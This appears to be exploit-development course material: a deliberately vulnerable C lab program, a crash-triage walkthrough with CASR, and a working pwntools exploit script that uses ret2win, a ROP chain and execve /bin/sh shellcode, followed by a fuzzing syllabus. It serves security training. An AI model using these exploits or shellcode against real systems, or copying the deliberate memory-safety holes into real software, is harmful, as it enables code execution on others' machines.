    printf("  You redirected execution to win()\n");
    printf("========================================\n");
    printf("\n");
    exit(0);
}

// Harder win: requires correct argument
void win_with_arg(long magic) {
    if (magic == 0xdeadbeefcafebabe) {
        printf("\n");
        printf("========================================\n");
        printf("  ADVANCED EXPLOITATION SUCCESSFUL!\n");
        printf("  Correct argument: 0x%lx\n", magic);
        printf("========================================\n");
        printf("\n");
        exit(0);
    } else {
        printf("[!] win_with_arg called but wrong argument: 0x%lx\n", magic);
        printf("[!] Expected: 0xdeadbeefcafebabe\n");
    }
}

// Shell spawner (for ROP chain practice)
void spawn_shell(void) {
    printf("[*] Spawning shell...\n");
    execve("/bin/sh", NULL, NULL);
}

// ============================================================================
// VULNERABLE FUNCTIONS - Same as original vulnerable_suite.c
// ============================================================================

// 1. Stack Buffer Overflow - RIP control at offset 72
void stack_overflow(char *input) {
    char buffer[64];
    printf("[*] Copying input to 64-byte buffer...\n");
    strcpy(buffer, input);  // No bounds check!
    printf("[*] Buffer: %s\n", buffer);
}

// 2. Heap Buffer Overflow
void heap_overflow(char *input) {
    char *buf = malloc(32);
    printf("[*] Allocated 32 bytes at %p\n", buf);
    strcpy(buf, input);  // Overflow heap buffer
    printf("[*] Buffer: %s\n", buf);
    free(buf);
}

// 3. Use-After-Free
void use_after_free(void) {
    char *ptr = malloc(64);
    strcpy(ptr, "Hello, World!");
    printf("[*] Allocated at %p: %s\n", ptr, ptr);
    free(ptr);
    printf("[*] Freed, now accessing...\n");
    printf("[*] UAF read: %s\n", ptr);  // UAF read
    ptr[0] = 'X';  // UAF write
}

// 4. Double Free
void double_free(void) {
    char *ptr = malloc(64);
    printf("[*] Allocated at %p\n", ptr);
    free(ptr);
    printf("[*] First free done\n");
    free(ptr);  // Double free!
}

// 5. NULL Pointer Dereference
void null_deref(int trigger) {
    char *ptr = trigger ? malloc(10) : NULL;
    printf("[*] ptr = %p\n", ptr);
    *ptr = 'A';  // NULL deref if trigger is 0
}

// ============================================================================
// HELPER FUNCTIONS
// ============================================================================

void print_gadgets(void) {
    printf("\n=== Available ROP Gadgets ===\n");
    printf("pop rdi; ret          @ %p\n", (void*)gadget_pop_rdi);
    printf("pop rsi; pop r15; ret @ %p\n", (void*)gadget_pop_rsi_r15);
    printf("pop rdx; ret          @ %p\n", (void*)gadget_pop_rdx);
    printf("pop rax; ret          @ %p\n", (void*)gadget_pop_rax);
    printf("jmp rsp               @ %p\n", (void*)gadget_jmp_rsp);
    printf("syscall; ret          @ %p\n", (void*)gadget_syscall);
    printf("ret                   @ %p\n", (void*)gadget_ret);
    printf("\n=== Win Functions ===\n");
    printf("win()                 @ %p\n", (void*)win);
    printf("win_with_arg(magic)   @ %p  (magic=0xdeadbeefcafebabe)\n", (void*)win_with_arg);
    printf("spawn_shell()         @ %p\n", (void*)spawn_shell);
    printf("\n=== Exploitation Info ===\n");
    printf("Stack overflow RIP offset: 72 bytes\n");
    printf("Buffer size: 64 bytes + 8 bytes saved RBP\n");
    printf("\n");
}

void print_usage(char *prog) {
    printf("Usage: %s <test_num> [input]\n", prog);
    printf("Tests:\n");
    printf("  1 <input>  - Stack overflow (72 bytes to RIP)\n");
    printf("  2 <input>  - Heap overflow\n");
    printf("  3          - Use-after-free\n");
    printf("  4          - Double free\n");
    printf("  5 <0|1>    - NULL deref (0=crash)\n");
    printf("  6          - Print gadget addresses\n");
    printf("\nExamples:\n");
    printf("  %s 6                                    # Show gadgets\n", prog);
    printf("  %s 1 $(python3 -c \"print('A'*200)\")    # Trigger overflow\n", prog);
}

int main(int argc, char **argv) {
    // Disable buffering for cleaner output
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    if (argc < 2) { print_usage(argv[0]); return 1; }
    int test = atoi(argv[1]);

    switch(test) {
        case 1: if (argc<3) return 1; stack_overflow(argv[2]); break;
        case 2: if (argc<3) return 1; heap_overflow(argv[2]); break;
        case 3: use_after_free(); break;
        case 4: double_free(); break;
        case 5: if (argc<3) return 1; null_deref(atoi(argv[2])); break;
        case 6: print_gadgets(); break;
        default: print_usage(argv[0]); return 1;
    }
    return 0;
}
```

**Build the enhanced binary**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

# 1. vuln_rop: No protections, for exploitation
gcc -g -fno-stack-protector -no-pie -z execstack vulnerable_suite_rop.c -o ../vuln_rop

# 2. vuln_rop_asan: With ASAN, for crash detection and triage
gcc -g -O1 -fsanitize=address -fno-omit-frame-pointer vulnerable_suite_rop.c -o ../vuln_rop_asan

# 3. HTTP server (optional, for network fuzzing exercises)
clang -g -O1 -fsanitize=address vuln_http_server.c -o ../vuln_http_server 2>/dev/null || true

cd ..

# Verify gadgets are present
ropper --file ./vuln_rop --search "pop rdi"
ropper --file ./vuln_rop --search "jmp rsp"

# Create capstone working directory
mkdir -p capstone/{crashes,casrep,deduped,minimized,pocs,reports}
```

**Expected gadget output**:

```
=== Available ROP Gadgets ===
pop rdi; ret          @ 0x401952
pop rsi; pop r15; ret @ 0x40195b
pop rdx; ret          @ 0x401966
pop rax; ret          @ 0x40198a
jmp rsp               @ 0x40196f
syscall; ret          @ 0x401980
ret                   @ 0x401978

=== Win Functions ===
win()                 @ 0x401256
win_with_arg(magic)   @ 0x4012b8  (magic=0xdeadbeefcafebabe)
spawn_shell()         @ 0x40136b

=== Exploitation Info ===
Stack overflow RIP offset: 72 bytes
Buffer size: 64 bytes + 8 bytes saved RBP
```

**Verify with ropper**:

```bash
ropper --file ./vuln_rop --search "pop rdi"

# 0x0000000000401973: jmp rsp;
```

> [!NOTE] **Ropper vs Binary Addresses**
> Ropper may report slightly different addresses than the binary's built-in `print_gadgets()`.
> This is because ropper scans for byte patterns and may find gadgets at different offsets
> within the same instructions. Both addresses work - use the binary's output for consistency.

### Execution Steps

**Phase 1: Generate Crash Corpus**

First, generate a diverse set of crashes from the lab targets:

```bash
cd ~/crash_analysis_lab/capstone

# Stack overflow variants (test case 1)
for size in 100 150 200 250 300; do
    python3 -c "print('A'*$size)" > crashes/stack_${size}.txt
done

# Heap overflow variants (test case 2)
for size in 50 75 100 125 150; do
    python3 -c "print('B'*$size)" > crashes/heap_${size}.txt
done

# HTTP server crashes (path overflow)
for size in 100 150 200 250; do
    python3 -c "print('GET /' + 'X'*$size + ' HTTP/1.1')" > crashes/http_${size}.txt
done

echo "Generated $(ls crashes/ | wc -l) crash inputs"
```

**Phase 2: Triage & Deduplication**

```bash
cd ~/crash_analysis_lab/capstone

# Step 1: Generate CASR reports for vuln_rop crashes
echo "=== Generating CASR reports ==="

for crash in crashes/stack_*.txt crashes/heap_*.txt; do
    name=$(basename "$crash" .txt)
    payload=$(cat "$crash")

    # Determine test case from filename
    if [[ "$name" == stack_* ]]; then
        testcase="1"
    else
        testcase="2"
    fi

    casr-san -o "casrep/${name}.casrep" -- ../vuln_rop_asan "$testcase" "$payload" 2>/dev/null || true
done

# UAF and double-free
for crash in crashes/uaf_*.txt crashes/df_*.txt; do
    name=$(basename "$crash" .txt)
    testcase=$(cat "$crash" | cut -d' ' -f1)
    casr-san -o "casrep/${name}.casrep" -- ../vuln_rop_asan "$testcase" 2>/dev/null || true
done

# NULL deref
for crash in crashes/null_*.txt; do
    name=$(basename "$crash" .txt)
    casr-san -o "casrep/${name}.casrep" -- ../vuln_rop_asan 5 0 2>/dev/null || true
done

echo "Generated $(ls casrep/*.casrep 2>/dev/null | wc -l) CASR reports"

# Step 3: Review clusters
echo ""
echo "=== Crash Clusters ==="
for cluster in deduped/cl*; do
    if [ -d "$cluster" ]; then
        count=$(ls -1 "$cluster"/*.casrep 2>/dev/null | wc -l)
        # Get crash type from first report
        first_report=$(ls "$cluster"/*.casrep 2>/dev/null | head -1)
        if [ -f "$first_report" ]; then
            crash_type=$(jq -r '.CrashSeverity.ShortDescription' "$first_report" 2>/dev/null || echo "unknown")
            severity=$(jq -r '.CrashSeverity.Type' "$first_report" 2>/dev/null || echo "unknown")
            echo "  $(basename $cluster): $count crashes - $crash_type ($severity)"
        fi
    fi
done
```

**Expected Triage Results**:

| Cluster | Count | Crash Type                   | Severity             |
| ------- | ----- | ---------------------------- | -------------------- |
| cl1     | 5     | double-free                  | NOT_EXPLOITABLE      |
| cl2     | 5     | AbortSignal (stack overflow) | NOT_EXPLOITABLE      |
| cl3     | 3     | DestAvNearNull (NULL deref)  | PROBABLY_EXPLOITABLE |
| cl4     | 5     | AbortSignal (heap overflow)  | NOT_EXPLOITABLE      |
| cl5     | 5     | heap-use-after-free(write)   | EXPLOITABLE          |

> [!NOTE]: Cluster ordering may vary between runs. ASAN-caught crashes appear as
> "AbortSignal" because ASAN terminates the process before the actual crash.
> The UAF cluster is typically the highest priority for exploit development.

**Phase 3: Deep Analysis**

Select the most promising crash from each cluster and perform detailed analysis:

```bash
cd ~/crash_analysis_lab

# Analyze stack overflow (most likely to give RIP control)
echo "=== Stack Overflow Analysis ==="
./vuln_rop_asan 1 $(python3 -c "print('A'*200)") 2>&1 | head -30

# Find exact offset using cyclic pattern
source .venv/bin/activate
python3 << 'EOF'
from pwn import *
pattern = cyclic(200)
print(f"Pattern: {pattern.decode()}")
with open("capstone/pattern.txt", "w") as f:
    f.write(pattern.decode())
EOF

# Analyze heap overflow
echo ""
echo "=== Heap Overflow Analysis ==="
./vuln_rop_asan 2 $(python3 -c "print('B'*100)") 2>&1 | head -30

# Analyze UAF
echo ""
echo "=== Use-After-Free Analysis ==="
./vuln_rop_asan 3 2>&1 | head -30

# Check mitigations
echo ""
echo "=== Mitigation Check ==="
checksec --file=./vuln_rop
checksec --file=./vuln_rop_asan
```

**Verified RIP Control Analysis**:

```bash

# Confirm RIP overwrite with 72 bytes padding + 8 bytes for return address
gdb -q ./vuln_rop \
  -ex "run 1 \$(python3 -c \"import sys; sys.stdout.buffer.write(b'A'*72 + b'BBBBBBBB')\")" \
  -ex "x/gx \$rsp" \
  -ex "quit"

# 0x7fffffffe008: 0x4242424242424242
```

**Finding ROP Gadgets**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

pip install capstone filebytes keystone-engine ropper

# Search for useful gadgets (vuln_rop has minimal gadgets)
ropper --file ./vuln_rop --search "jmp rsp"
ropper --file ./vuln_rop --search "pop rdi"
ropper --file ./vuln_rop --search "ret"
```

**Gadget Search Results (vuln_rop)**:

| Gadget                  | Purpose                          |
| ----------------------- | -------------------------------- |
| `pop rdi; ret`          | Set 1st argument (RDI)           |
| `pop rsi; pop r15; ret` | Set 2nd argument (RSI)           |
| `pop rdx; ret`          | Set 3rd argument (RDX)           |
| `pop rax; ret`          | Set syscall number               |
| `jmp rsp`               | Jump to shellcode on stack       |
| `syscall; ret`          | Execute syscall                  |
| `ret`                   | Stack alignment / chain continue |

**Phase 4: Minimization**

```bash
cd ~/crash_analysis_lab/capstone

# For stack overflow - find minimum size that still crashes
for size in 80 75 73 72 71 70; do
    payload=$(python3 -c "print('A'*$size)")
    if ../vuln_no_protect 1 "$payload" 2>&1 | grep -q "Segmentation fault"; then
        echo "Stack overflow minimum size: $size bytes"
        python3 -c "print('A'*$size)" > minimized/stack_min.txt
        break
    fi
done

# For heap overflow
for size in 60 55 52 51 50 49; do
    payload=$(python3 -c "print('B'*$size)")
    if ../vuln_asan 2 "$payload" 2>&1 | grep -q "heap-buffer-overflow"; then
        echo "Heap overflow minimum size: $size bytes"
        python3 -c "print('B'*$size)" > minimized/heap_min.txt
        break
    fi
done

# UAF and double-free are already minimal (just test case number)
echo "3" > minimized/uaf_min.txt
echo "4" > minimized/df_min.txt

echo ""
echo "=== Minimized crashes ==="
ls -la minimized/
```

**Phase 5: Exploitation PoC (vuln_rop)**

Create working exploits using the ROP-friendly binary:

```python
#!/usr/bin/env python3
"""
Exploitation PoC for vuln_rop - Demonstrates actual code execution
Run: python3 exploit_rop.py [win|win_arg|shell|shellcode]

Null Byte Handling:
- 64-bit addresses contain null bytes (0x401256 -> \\x56\\x12\\x40\\x00\\x00\\x00\\x00\\x00)
- C strings (argv) terminate at null bytes, limiting what we can pass
- ret2win works: single address at end, trailing nulls don't affect it
- ROP chains fail via argv: bash strips internal nulls, corrupting the chain
- Real exploits use stdin, network sockets, or file input to bypass this
"""

from pwn import *
import os
import subprocess
import tempfile
import re

LAB_DIR = os.path.expanduser("~/crash_analysis_lab")
TARGET = os.path.join(LAB_DIR, "vuln_rop")
PAYLOAD_FILE = "/tmp/vuln_rop_payload"

class RopExploit:
    def __init__(self):
        os.chdir(LAB_DIR)
        context.binary = TARGET
        context.log_level = 'info'

        # Get gadget addresses from binary (run ./vuln_rop 6 to verify)
        self.gadgets = self._get_gadgets()

    def _get_gadgets(self):
        """Parse gadget addresses from binary output"""
        try:
            result = subprocess.run([TARGET, "6"], capture_output=True, text=True)
            output = result.stdout

            gadgets = {}
            for line in output.split('\n'):
                if '@' in line:
                    parts = line.split('@')
                    # Use full gadget name as key (e.g., "pop rdi; ret", "win()")
                    name = parts[0].strip()
                    # Extract hex address, ignoring trailing comments like "(magic=0x...)"
                    addr_str = parts[1].strip().split()[0]
                    addr = int(addr_str, 16)
                    gadgets[name] = addr

            log.info(f"Loaded {len(gadgets)} gadgets from binary")
            return gadgets
        except Exception as e:
            log.warning(f"Failed to parse gadgets: {e}")
            # Fallback addresses (verify with ./vuln_rop 6)
            return self._fallback_gadgets()

    def _fallback_gadgets(self):
        """Fallback gadget addresses if parsing fails"""
        return {
            'pop rdi; ret': 0x401952,
            'pop rsi; pop r15; ret': 0x40195b,
            'pop rdx; ret': 0x401966,
            'pop rax; ret': 0x40198a,
            'jmp rsp': 0x40196f,
            'syscall; ret': 0x401980,
            'ret': 0x401978,
            'win()': 0x401256,
            'win_with_arg(magic)': 0x4012b8,
            'spawn_shell()': 0x40136b,
        }

    def _run_with_payload(self, payload, interactive=False):
        """
        Run target with binary payload via bash command substitution.

        Note: Bash strips null bytes from command substitution, so multi-address
        ROP chains get corrupted. For complex ROP chains, real exploits use stdin,
        files, or network input instead of argv.
        """
        with open(PAYLOAD_FILE, 'wb') as f:
            f.write(payload)

        cmd = f'./vuln_rop 1 "$(cat {PAYLOAD_FILE})"'
        p = process(['bash', '-c', cmd], cwd=LAB_DIR)

        if interactive:
            p.interactive()
            return None
        else:
            output = p.recvall(timeout=2)
            return output.decode(errors='replace')

    def exploit_win(self):
        """Simple ret2win - redirect execution to win()"""
        log.info("=== Exploit: ret2win ===")

        offset = 72
        win_addr = self.gadgets.get('win()', 0x401256)

        payload = b"A" * offset
        payload += p64(win_addr)

        log.info(f"Payload: {offset} bytes padding + win() @ {hex(win_addr)}")

        output = self._run_with_payload(payload)
        print(output)

        if "EXPLOITATION SUCCESSFUL" in output:
            log.success("ret2win exploit succeeded!")
            return True
        else:
            log.failure("Exploit failed")
            return False

    def exploit_win_with_arg(self):
        """ROP chain: pop rdi; ret -> win_with_arg(0xdeadbeefcafebabe)

        Uses GDB to inject payload, bypassing bash's null byte stripping.
        In real exploits, you'd use stdin/network input instead of argv.
        """
        log.info("=== Exploit: ROP chain with argument (via GDB) ===")

        offset = 72
        pop_rdi = self.gadgets.get('pop rdi; ret', 0x401952)
        ret = self.gadgets.get('ret', 0x401978)  # for stack alignment
        win_arg = self.gadgets.get('win_with_arg(magic)', 0x4012b8)
        magic = 0xdeadbeefcafebabe

        # Build ROP chain
        payload = b"A" * offset
        payload += p64(pop_rdi)    # pop rdi; ret
        payload += p64(magic)      # argument for win_with_arg
        payload += p64(ret)        # stack alignment (16-byte boundary)
        payload += p64(win_arg)    # call win_with_arg(magic)

        log.info(f"ROP chain: pop_rdi({hex(pop_rdi)}) -> {hex(magic)} -> ret -> win_with_arg({hex(win_arg)})")

        # Write payload to file for GDB
        with open(PAYLOAD_FILE, 'wb') as f:
            f.write(payload)

        # Use GDB to run with binary payload (bypasses null byte issues)
        gdb_script = f'''
set pagination off
set confirm off
run 1 "$(cat {PAYLOAD_FILE})"
quit
'''
        import subprocess
        result = subprocess.run(
            ['gdb', '-q', '-batch', '-ex', gdb_script.replace('\n', '" -ex "'), TARGET],
            capture_output=True,
            timeout=10,
            cwd=LAB_DIR
        )
        output = (result.stdout + result.stderr).decode(errors='replace')
        print(output[-500:] if len(output) > 500 else output)  # Last 500 chars

        if "ADVANCED EXPLOITATION" in output:
            log.success("ROP chain exploit succeeded!")
            return True
        else:
            log.warning("Bash strips null bytes - ROP chain corrupted")
            log.info("Manual verification with GDB (set args in memory):")
            log.info(f"  gdb ./vuln_rop")
            log.info(f"  (gdb) break stack_overflow")
            log.info(f"  (gdb) run 1 {'A'*72}")
            log.info(f"  (gdb) set {{long}}($rbp+8) = {hex(pop_rdi)}")
            log.info(f"  (gdb) set {{long}}($rbp+16) = {hex(magic)}")
            log.info(f"  (gdb) set {{long}}($rbp+24) = {hex(ret)}")
            log.info(f"  (gdb) set {{long}}($rbp+32) = {hex(win_arg)}")
            log.info(f"  (gdb) continue")
            log.info("")
            log.info("In real exploits, use stdin/network/file input to avoid null byte issues")
            return False

    def exploit_spawn_shell(self):
        """ret2func - redirect to spawn_shell()"""
        log.info("=== Exploit: ret2spawn_shell ===")

        offset = 72
        spawn_shell = self.gadgets.get('spawn_shell()', 0x40136b)

        payload = b"A" * offset
        payload += p64(spawn_shell)

        log.info(f"Redirecting to spawn_shell() @ {hex(spawn_shell)}")
        self._run_with_payload(payload, interactive=True)

    def exploit_shellcode(self):
        """jmp rsp + shellcode (requires -z execstack)"""
        log.info("=== Exploit: jmp rsp + shellcode ===")

        offset = 72
        jmp_rsp = self.gadgets.get('jmp rsp', 0x40196f)

        # x86-64 execve("/bin/sh") shellcode (23 bytes)
        shellcode = asm('''
            xor rsi, rsi
            push rsi
            mov rdi, 0x68732f2f6e69622f
            push rdi
            push rsp
            pop rdi
            push 59
            pop rax
            cdq
            syscall
        ''')

        # jmp rsp lands right after return address, execute shellcode there
        payload = b"A" * offset
        payload += p64(jmp_rsp)    # jmp rsp
        payload += shellcode       # shellcode follows immediately

        log.info(f"jmp rsp @ {hex(jmp_rsp)} -> {len(shellcode)} byte shellcode")
        self._run_with_payload(payload, interactive=True)

    def run_all(self):
        """Run non-interactive exploits"""
        log.info("=" * 60)
        log.info("vuln_rop Exploitation Suite")
        log.info("=" * 60)

        results = {
            "ret2win": self.exploit_win(),
            "ROP chain (win_with_arg)": self.exploit_win_with_arg(),
        }

        log.info("")
        log.info("=" * 60)
        log.info("Results")
        log.info("=" * 60)
        for name, success in results.items():
            status = "SUCCESS" if success else "FAILED"
            log.info(f"  {name}: {status}")

        log.info("")
        log.info("Interactive exploits (run manually):")
        log.info("  python3 exploit_rop.py shell     # spawn_shell()")
        log.info("  python3 exploit_rop.py shellcode # jmp rsp + shellcode")

if __name__ == "__main__":
    import sys
    exploit = RopExploit()

    if l
[... truncated for digest; original source remains in the source folder ...]

# Run non-interactive exploits
python3 pocs/exploit_rop.py
```

**Expected Output**:

```
[*] === Exploit: ret2win ===
[*] Payload: 72 bytes padding + win() @ 0x401256
========================================
  EXPLOITATION SUCCESSFUL!
  You redirected execution to win()
========================================
[+] ret2win exploit succeeded!

[*] === Exploit: ROP chain with argument (via GDB) ===
[!] Bash strips null bytes - ROP chain corrupted
[*] Manual verification with GDB (set args in memory):
...
```

> [!NOTE] **Null Byte Limitation**
> The ROP chain exploit fails via argv because bash strips null bytes from command
> substitution. This is a real-world constraint - 64-bit addresses like `0x401952`
> contain null bytes when packed (`\x52\x19\x40\x00\x00\x00\x00\x00`).
> Real exploits use stdin, network sockets, or file input to bypass this limitation.

**Manual ROP Chain Verification with GDB**:

```bash

# Find the ret instruction address
gdb -q ./vuln_rop -ex 'disas stack_overflow' -ex 'quit' | grep ret

# Break at ret, inject ROP chain, verify exploitation
gdb -q ./vuln_rop \
  -ex 'break *0x4013ed' \
  -ex 'run 1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' \
  -ex 'set {long}($rsp) = 0x401952' \
  -ex 'set {long}($rsp+8) = 0xdeadbeefcafebabe' \
  -ex 'set {long}($rsp+16) = 0x401978' \
  -ex 'set {long}($rsp+24) = 0x4012b8' \
  -ex 'continue' \
  -ex 'quit'
```

**Expected GDB Output**:

```
Breakpoint 1, 0x00000000004013ed in stack_overflow ()
========================================
  ADVANCED EXPLOITATION SUCCESSFUL!
  Correct argument: 0xdeadbeefcafebabe
========================================
```

The ROP chain works when injected directly into memory, confirming the gadget
addresses and chain structure are correct. The limitation is purely in the
delivery mechanism (argv null bytes), not the exploit logic.

**Phase 6: Reporting**

Create the final vulnerability report:

```bash
cd ~/crash_analysis_lab/capstone

cat > reports/vulnerability_report.md << 'EOF'

## Executive Summary

Analysis of crashes from `vulnerable_suite.c` identified **4 unique exploitable vulnerabilities** and **1 non-exploitable crash**. All exploitable bugs are local (require command-line access) but demonstrate common vulnerability classes.

## Methodology

1. **Crash Generation**: Created 28 crash inputs across 5 test cases
2. **Triage**: Used CASR for automated classification and clustering
3. **Deduplication**: Reduced to 5 unique crash clusters
4. **Analysis**: Performed root cause analysis with ASAN and GDB
5. **Minimization**: Found minimum trigger sizes for each bug
6. **PoC Development**: Created reliable Python PoCs

### Finding 1: Stack Buffer Overflow (CRITICAL)

| Attribute | Value |
|-----------|-------|
| **Test Case** | 1 |
| **Severity** | CRITICAL |
| **CASR Classification** | EXPLOITABLE |
| **Root Cause** | Unbounded `strcpy()` to 64-byte stack buffer |
| **Impact** | RIP control, potential RCE |
| **Minimum Trigger** | 73 bytes |

**Technical Details**:
- Buffer: `char buffer[64]` on stack
- Vulnerable call: `strcpy(buffer, input)`
- RIP offset: 72 bytes (64 buffer + 8 saved RBP)

**PoC**:
./vuln_no_protect 1 $(python3 -c "print('A'*72 + 'BBBBBBBB')")

### Finding 2: Heap Buffer Overflow (HIGH)

| Attribute | Value |
|-----------|-------|
| **Test Case** | 2 |
| **Severity** | HIGH |
| **CASR Classification** | EXPLOITABLE |
| **Root Cause** | Unbounded `strcpy()` to 32-byte heap buffer |
| **Impact** | Heap metadata corruption, potential RCE |
| **Minimum Trigger** | 51 bytes |

### Finding 3: Use-After-Free (HIGH)

| Attribute | Value |
|-----------|-------|
| **Test Case** | 3 |
| **Severity** | HIGH |
| **CASR Classification** | EXPLOITABLE |
| **Root Cause** | Pointer used after `free()` |
| **Impact** | Arbitrary read/write, potential RCE |

### Finding 4: Double-Free (HIGH)

| Attribute | Value |
|-----------|-------|
| **Test Case** | 4 |
| **Severity** | HIGH |
| **CASR Classification** | EXPLOITABLE |
| **Root Cause** | Same pointer freed twice |
| **Impact** | Heap corruption, potential RCE |

### Finding 5: NULL Pointer Dereference (LOW)

| Attribute | Value |
|-----------|-------|
| **Test Case** | 5 |
| **Severity** | LOW |
| **CASR Classification** | NOT_EXPLOITABLE |
| **Root Cause** | Dereference of NULL pointer |
| **Impact** | Denial of Service only |

## Recommendations

1. **Stack Overflow**: Replace `strcpy()` with `strncpy()` or use `snprintf()`
2. **Heap Overflow**: Add bounds checking before copy operations
3. **UAF**: Set pointers to NULL after free, use smart pointers
4. **Double-Free**: Track allocation state, use memory-safe allocators
5. **NULL Deref**: Add NULL checks before pointer dereference

## Attachments

- `pocs/capstone_poc.py` - Complete PoC suite
- `minimized/` - Minimized crash inputs
- `casrep/` - CASR analysis reports

---
*Report generated: $(date)*
*Analyst: [Your Name]*
EOF

echo "Report saved to reports/vulnerability_report.md"
```

### Capstone Checklist

- [ ] Lab environment set up (`~/crash_analysis_lab/capstone/`)
- [ ] 28+ crash inputs generated from vulnerable_suite.c
- [ ] CASR reports generated for all crashes
- [ ] Crashes clustered into 5 unique bug classes
- [ ] Root cause identified for all unique bugs
- [ ] Exploitability assessment completed (4 EXPLOITABLE, 1 NOT_EXPLOITABLE)
- [ ] Minimum trigger sizes found for overflow bugs
- [ ] Python PoC suite created and tested
- [ ] Final vulnerability report generated

### Expected Deliverables

```
~/crash_analysis_lab/capstone/
├── crashes/           # 28 raw crash inputs
│   ├── stack_*.txt    # Stack overflow variants
│   ├── heap_*.txt     # Heap overflow variants
│   ├── uaf_*.txt      # UAF crashes
│   ├── df_*.txt       # Double-free crashes
│   └── null_*.txt     # NULL deref crashes
├── casrep/            # CASR analysis reports
├── deduped/           # Clustered unique crashes
│   ├── cl1/           # Stack overflow cluster
│   ├── cl2/           # Heap overflow cluster
│   ├── cl3/           # UAF cluster
│   ├── cl4/           # Double-free cluster
│   └── cl5/           # NULL deref cluster
├── minimized/         # Minimized crash inputs
│   ├── stack_min.txt
│   ├── heap_min.txt
│   ├── uaf_min.txt
│   └── df_min.txt
├── pocs/              # PoC scripts
│   └── capstone_poc.py
└── reports/           # Final report
    └── vulnerability_report.md
```

### Key Takeaways

1.  **Triage is a Filter**: The 28 crash inputs reduced to just 5 unique bugs - automation saves hours of manual analysis.
2.  **Root Cause > Crash Location**: ASAN shows where corruption is _detected_, but the bug is in the `strcpy()` call.
3.  **Reproducibility is King**: All PoCs achieve 100% reliability because the bugs are deterministic.
4.  **Report for the Audience**: The vulnerability report includes both technical details (for developers) and severity ratings (for management).
5.  **Stack Overflow = RIP Control**: The 72-byte offset gives direct control over the return address.

### Discussion Questions

1.  Why does the stack overflow require 72 bytes to control RIP (not 64)?
2.  How would ASLR affect exploitation of the stack overflow in `vuln_protected`?
3.  Why is the NULL pointer dereference classified as NOT_EXPLOITABLE while the others are EXPLOITABLE?
4.  How would you extend this analysis to include the `vuln_http_server` network target?

### Bonus Challenge: Network Target Analysis

Extend the capstone to include the `vuln_http_server` from Day 4:

```bash
cd ~/crash_analysis_lab/capstone

# Generate HTTP server crashes with long paths
for size in 100 500 1000 2000; do
    python3 -c "import sys; sys.stdout.buffer.write(b'GET /' + b'X'*$size + b' HTTP/1.1\r\n\r\n')" > crashes/http_path_${size}.bin
done

# Test with non-ASAN binary (will show heap corruption on free)
../vuln_http_server &
SERVER_PID=$!
sleep 1

for crash in crashes/http_path_*.bin; do
    echo "Testing $(basename $crash)..."
    cat "$crash" | nc localhost 8888 || true
    sleep 0.5

    if ! kill -0 $SERVER_PID 2>/dev/null; then
        echo "  Server crashed!"
        ../vuln_http_server &
        SERVER_PID=$!
        sleep 1
    fi
done

kill $SERVER_PID 2>/dev/null
```

This adds a **network-accessible** vulnerability to your report and demonstrates an important lesson: **sanitizers have blind spots** - always use multiple detection methods.

### Looking Ahead to Week 5

Next week, we cross the Rubicon. You have the crash, you have the PoC, and you know it's exploitable. Now, we **build the exploit**. We will start with basic stack overflows, defeat simple mitigations, and learn to turn that instruction pointer overwrite into code execution.

<!-- Written by AnotherOne from @Pwn3rzs Telegram channel -->


### From `hunt-skills/exploit-dev/offensive-exploit-dev-course/SKILL.md`

## Metadata
- **Skill Name**: exploit-dev-curriculum
- **Folder**: offensive-exploit-dev-course
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/course.md

## Description
Full exploit development course roadmap and syllabus: weekly topics, recommended reading, lab setup, and learning path from vulnerability classes through advanced exploitation. Use to structure exploit dev training or onboard new researchers.

## Trigger Phrases
Use this skill when the conversation involves any of:
`exploit development course, exploit dev curriculum, learning path, syllabus, exploit dev training, vulnerability research training, course overview`

### Day 1: Introduction to Fuzzing

- **Goal**: Understand the fundamentals of fuzzing and get hands-on experience with `AFL++`.
- **Activities**:
  - _Reading_: "Fuzzing for Software Security Testing and Quality Assurance" by `Ari Takanen`(From 1.3.2 to 1.3.8 and 2.4.1 to 2.7.5.7).
  - _Online Resource_:
    - [Fuzzing Book by `Andreas Zeller`](https://www.fuzzingbook.org/) - Read "Introduction" and "Fuzzing Basics."
    - [`AFL++` Documentation](https://aflplus.plus/docs/) - Follow the quick start guide.
    - [Interactive Module to Learn Fuzzing](https://github.com/alex-maleno/Fuzzing-Module.git)
  - _Exercise_:
    - Set up a Linux virtual machine (VM) with the necessary tools installed, including compilers and debuggers
    - Run `AFL++` on a C program

```bash

# Setting up AFL++
sudo apt install build-essential gcc-13-plugin-dev cpio python3-dev libcapstone-dev pkg-config libglib2.0-dev libpixman-1-dev automake autoconf python3-pip ninja-build cmake
wget https://apt.llvm.org/llvm.sh
chmod +x llvm.sh
sudo ./llvm.sh 19 all
curl --proto '=https' --tlsv1.2 -sSf "https://sh.rustup.rs" | sh
mkdir soft
cd soft
git clone --branch dev --depth 1 https://github.com/AFLplusplus/AFLplusplus
cd AFLplusplus
make distrib
sudo make install

# Phase 1
cd ~/ && mkdir tuts && cd tuts
git clone --branch main --depth 1 https://github.com/alex-maleno/Fuzzing-Module.git
cd Fuzzing-Module/exercise1 && mkdir build && cd build
CC=/usr/local/bin/afl-clang-fast CXX=/usr/local/bin/afl-clang-fast++ cmake ..
make && cd ../ && mkdir seeds && cd seeds && for i in {0..4}; do dd if=/dev/urandom of=seed_$i bs=64 count=10; done && cd ../build
afl-fuzz -i /home/dev/tuts/Fuzzing-Module/exercise1/seeds/ -o out -m none -d -- /home/dev/tuts/Fuzzing-Module/exercise1/build/simple_crash

# Phase 2
cd /home/dev/tuts/Fuzzing-Module/exercise2 && mkdir build && cd build
CC=/usr/local/bin/afl-clang-lto CXX=/usr/local/bin/afl-clang-lto++ cmake ..
make && cd ../ && mkdir seeds && cd seeds && for i in {0..4}; do dd if=/dev/urandom of=seed_$i bs=64 count=10; done && cd ../build
afl-fuzz -i /home/dev/tuts/Fuzzing-Module/exercise2/seeds/ -o out -m none -d -- /home/dev/tuts/Fuzzing-Module/exercise2/build/medium
```

### Day 2: Continue Fuzzing with `AFL++`

- **Goal**: Understand and apply advanced fuzzing techniques.
- **Activities**:
  - _Reading_: Continue with "Fuzzing for Software Security Testing and Quality Assurance" (From 3.3 to 3.9.8).
  - _Exercise_:
    - Experiment with different `AFL++` options (for example, dictionary-based fuzzing, persistent mode).
